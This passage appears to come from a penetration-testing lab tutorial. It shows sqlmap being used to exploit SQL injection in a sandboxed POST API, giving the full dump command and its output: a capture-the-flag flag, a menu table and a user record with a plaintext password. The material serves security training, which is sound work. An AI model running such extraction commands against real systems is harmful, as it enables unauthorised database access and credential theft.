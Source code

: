 
In this case, it found one vulnerable parameter and used two different techniques to exploit the vulnerability, listing a payload for each technique. Even when sqlmap is doing the work for us, having these sample payloads helps us understand how it exploited the vulnerability.

We can now use sqlmap to automate the extraction of data from the database. We will run sqlmap again with `--dbms to set "mysql"` as the backend type and we'll `--dump` the contents of all tables in the database. The data extraction's duration will depend on which injection techniques can be used.


```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump

Table: flags                                                                                                                                                                                                
[1 entry]                                                                                                                                                                                                   
+------+------------------------+                                                                                                                                                                           
| id   | flag                   |                                                                                                                                                                           
+------+------------------------+
| 1000 | OS{SQLMapFlagForMySQL} |
+------+------------------------+

[19:45:57] [INFO] table 'sqlmap.flags' dumped to CSV file '/root/.local/share/sqlmap/output/sql-sandbox/dump/sqlmap/flags.csv'
[19:45:57] [INFO] fetching columns for table 'menu' in database 'sqlmap'
[19:45:57] [INFO] fetching entries for table 'menu' in database 'sqlmap'
Database: sqlmap
Table: menu
[3 entries]
+----+-------+-------------------+------------------------------------------------------------------------------------------+
| id | price | name              | description                                                                              |
+----+-------+-------------------+------------------------------------------------------------------------------------------+
| 10 | 2.99  | Tacos             | Corn tortilla with cilantro, onions, and choice of protein.                              |
| 11 | 3.99  | Tostadas          | Fried corn tortilla with refried beans, lettuce, tomato, avocado, and choice of protein. |
| 12 | 3.45  | Horchata de arroz | A sweet beverage made from rice, vanilla, and cinnamon.                                  |
+----+-------+-------------------+------------------------------------------------------------------------------------------+

[19:45:57] [INFO] table 'sqlmap.menu' dumped to CSV file '/root/.local/share/sqlmap/output/sql-sandbox/dump/sqlmap/menu.csv'
[19:45:57] [INFO] fetching columns for table 'users' in database 'sqlmap'
[19:45:57] [INFO] fetching entries for table 'users' in database 'sqlmap'
Database: sqlmap
Table: users
[1 entry]
+------+------------+-----------+
| id   | password   | username  |
+------+------------+-----------+
| 1000 | notunusual | tom.jones |
+------+------------+-----------+

```